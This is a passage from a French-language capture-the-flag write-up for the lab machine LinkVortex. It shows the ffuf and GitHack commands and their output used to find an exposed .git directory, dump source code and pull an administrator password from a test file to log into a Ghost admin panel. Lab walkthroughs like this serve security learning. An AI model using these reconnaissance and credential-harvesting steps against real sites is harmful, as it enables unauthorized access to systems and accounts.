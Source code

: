 Le fuzzing de ce sous-domaine révèle la présence d’un répertoire ```.git```.

{{< highlight go "hl_lines=1" >}}
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://dev.linkvortex.htb/FUZZ
<...>
.git                    [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 15ms]
.git/HEAD               [Status: 200, Size: 41, Words: 1, Lines: 2, Duration: 18ms]
.git/logs/              [Status: 200, Size: 868, Words: 59, Lines: 16, Duration: 19ms]
.git/config             [Status: 200, Size: 201, Words: 14, Lines: 9, Duration: 17ms]
.git/index              [Status: 200, Size: 707577, Words: 2171, Lines: 2172, Duration: 17ms]
index.html              [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 16ms]
server-status           [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 19ms]
{{< /highlight >}}

On peut alors utiliser l'outil [GitHack](https://github.com/lijiejie/GitHack) pour récupérer une partie du code source original.

{{< highlight go "hl_lines=1" >}}
$ ./GitHack.py http://dev.linkvortex.htb/.git/
<...>
$ tree dev.linkvortex.htb 
dev.linkvortex.htb
├── Dockerfile.ghost
└── ghost
    └── core
        └── test
            └── regression
                └── api
                    └── admin
                        └── authentication.test.js

7 directories, 2 files
{{< /highlight >}}

Parmi les fichiers récupérés, on a `authentication.test.js`, qui contient le mot de passe de l'administrateur:

{{< highlight go "hl_lines=1 5" >}}
$ less ghost/core/test/regression/api/admin/authentication.test.js
<...>
        it('complete setup', async function () {
            const email = 'test@example.com';
            const password = 'OctopiFociPilfer45';

            const requestMock = nock('https://api.github.com')
                .get('/repos/tryghost/dawn/zipball')
                .query(true)
                .replyWithFile(200, fixtureManager.getPathForFixture('themes/valid.zip'));
<...>
{{< /highlight >}}

On peut utiliser ce mot de passe pour accéder à l'interface d'administration(on devine facilement le username *admin@linkvortex.htb*) en s'y connectant via http://linkvortex.htb/ghost/#/signin, mais ça ne nous permet pas d'aller plus loin.
